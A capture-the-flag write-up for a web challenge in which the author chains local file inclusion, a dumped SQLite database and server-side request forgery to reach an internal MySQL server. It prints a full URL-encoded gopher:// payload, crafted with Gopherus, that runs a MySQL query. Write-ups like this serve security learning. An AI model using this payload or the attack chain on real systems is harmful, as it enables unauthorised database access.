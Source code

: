 # Go Tigers
## Flag Format
flag{xxxxx}
## Hint
`no hint`
## Solution
Challenge : https://tigers.ctf.cert.unlp.edu.ar/

I entered this website and found two input box.

| Input             | About                                                                |
| ----------------- | ------------------------------------------------------------------ |
| First Box |   SQL Injection , search by tiger_id   |
| Second Box |  Local File Include    |

![](pic/1.JPG)

I used second input box to make the php error.
So It appear error and location of index.php at `/var/www/html/index.php`
![](pic/2.JPG)

let's read index.php and I found sth interesting at line 6. `../tiger.db`
![](pic/3.JPG)

So you can dump this file and open it with `DB Browser (SQLite)`
you will get password for login at `/admin.php` (you can get it from robots.txt)
![](pic/4.JPG)

We can read admin.php by the same as old method.
And We will know this website can check status by ping command and may do Command Injection,
SSRF attack or something else.I tried to bypass escapeshellcmd and escapeshellarg but It's very difficult to bypass.
I cannot pass after this mama T-T.
![](pic/6.JPG)
![](pic/7.JPG)

By observing at the db_status, we can connect mysqlsafedb.com:3306.
From name of challenge it hint us at `"GO"` word.
There is a protocol that can connect to mysql which is `gopher://`
So I found tools for craft exploit payload => [Gopherus](https://github.com/tarunkant/Gopherus)
and We can get mysql username from comment in admin.php.

Payload :
```
gopher://127.0.0.1:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6a%75%61%6e%70%65%72%65%7a%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%53%48%4f%57%20%44%41%54%41%42%41%53%45%53%3b%01%00%00%00%01
```
![](pic/8.JPG)

Change hostname in payload to  `mysqlsafedb.com:3306` and Use this to exploit.

GOTCHA.
Finally, I got the flag.

![](pic/9.JPG)

